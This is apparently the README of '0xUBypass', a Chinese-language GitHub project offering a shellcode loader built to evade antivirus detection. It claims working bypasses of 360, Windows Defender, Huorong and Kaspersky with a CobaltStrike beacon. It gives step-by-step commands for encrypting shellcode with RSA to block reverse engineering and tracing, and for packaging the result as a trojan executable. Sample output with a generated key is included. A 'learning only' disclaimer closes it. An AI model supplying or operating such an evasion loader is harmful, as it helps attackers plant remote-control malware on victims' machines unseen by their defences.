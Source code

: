 ## 0xUBypass
### Summary
写在前面，开源不是为了让你随便用，你要这样我还不如就放个readme上来，然后传个附件，代码一点都不给你，都给了你代码了，很多简单的问题你还问来问去，那就是你的不对了

### Description:
这是一个基于纯汇编语言绕过动/静态检测的Shellcode Loader，也可以直接当做免杀使用，使用了2048位秘钥的RSA进行防止逆向，可以有效避免被溯源，当然，需要携带秘钥作为启动参数

### Requirements:
开发环境为VS 2017，当然你也可以适当更改代码使得它可以在新版运行，编译为64位的

shellcode要求为64位的shellcode，当然，你可以在 https://github.com/Yeuoly/0xUBypass/blob/master/WindowsShellcodeInjector/WindowsShellcodeInjector.cpp#L41 这里看到，编译出来的程序是64位的，所以shellcode得是64位

### Bypass
操作系统：Win10 64位
杀毒软件：360全家桶(360安全卫士、360杀毒)，火绒，windows defender，卡巴斯基，更多的暂时没有测试<br>
C2及版本：CobaltStrike 4.4
- [x] 360
![Alt text](README.assets/image.png)
![Alt text](README.assets/image-1.png)
- [x] Windows Defender
![Alt text](README.assets/image-2.png)
- [x] 火绒
![Alt text](README.assets/image-5.png)
![Alt text](README.assets/image-4.png)
- [x] 卡巴斯基
![Alt text](README.assets/image-3.png)

### Usages
#### 不带脑子
在
https://github.com/Yeuoly/0xUBypass/releases/tag/1.0.0
下载release，然后准备一个64位的shellcode，替换掉release中改的shellcode，然后运行即可
```go
go run go.go ./shellcode1.bin
```
会生成一个exe，点开就行，默认是弹计算器

#### 使用golang加载DLL
感谢 [A10nggg](https://github.com/A10nggg) 师傅的贡献，现在可以使用golang加载DLL了

使用方法如下

如果你不喜欢默认的C++加载器，你也可以使用golang加载器，毕竟C++的特征过于明显，很容易被杀软检测到，使用方法如下

1. 首先你需要将本项目编译为DLL
2. 使用go编译go_bundle.go生成木马文件

```bash
go run go_bundle.go muma
```
其中muma为生成的木马文件名，可以自定义，具体建议看代码

3. 将生成的木马文件和DLL文件放在同一目录下，然后运行木马文件即可

#### 直接使用
首先准备好一段shellcode（RAW编码）保存在aaa.bin（命名随意）中，然后使用UBypass进行加密，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\WindowsShellcodeInjector.exe .\calc.bin
[*] Generated Private Key => gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<=
[*] Your Padding Original Shellcode Size is 280
[*] Your Padding Encrypted Shellcode Size is 560
[*] Your Encrypted Shellcode is f30d0f241eafbe062451e23a3ede47419f06cbc36802ea49e23beb1caaa3dc008f4fa95bf85cc18235383bc8593411345e4485af8cd58a52e9500e0d5664760a99d5ef9d0727d70d582563959b016b1c2069a149cdddcd5fc
```

随后会在当前文件夹生成一个Kawaii.exe即为携带了你的shellcode的马子，使用的时候加上私钥即可，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\Kawaii.exe 'gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<='
```

### 免责声明
本项目仅供学习交流使用，请勿用于非法用途，否则后果自负，与本人无关

本项目仅提供一个已经编译好的dll在release中

https://github.com/Yeuoly/0xUBypass/releases/tag/1.0.0
